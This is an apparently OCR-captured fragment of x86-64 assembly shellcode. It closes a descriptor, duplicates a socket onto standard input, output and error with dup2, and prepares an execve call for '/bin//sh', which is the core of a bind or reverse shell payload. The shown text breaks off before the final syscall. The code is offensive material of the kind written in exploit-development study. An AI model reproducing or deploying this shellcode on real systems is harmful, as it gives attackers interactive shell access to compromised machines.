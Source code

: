 ```term
        ; close parent

        mov al, 3
        syscall

        ; duplicate sockets

        ; dup2 (new, old)
        mov rdi, r9
        mov al, 33

        xor rsi, rsi

        syscall

        mov al, 33

        push word 1
        pop bp

        mov rsi, rbp
        syscall

        mov al, 33

        push word 2
        pop bp

        mov rsi, rbp

        syscall

        ; execve

        ; First NULL push

        xor rax, rax
        push rax

        ; push /bin//sh in reverse

        mov rbx, 0x68732f2f6e69622f
        push rbx

        ; store /bin//sh address in RDI

        mov rdi, rsp

        ; Second NULL push
        push rax

        ; set RDX
        mov rdx, rsp


        ; Push address of /bin//sh
        push rdi

        ; set RSI

        mov rsi, rsp

        ; Call the Execve syscall
```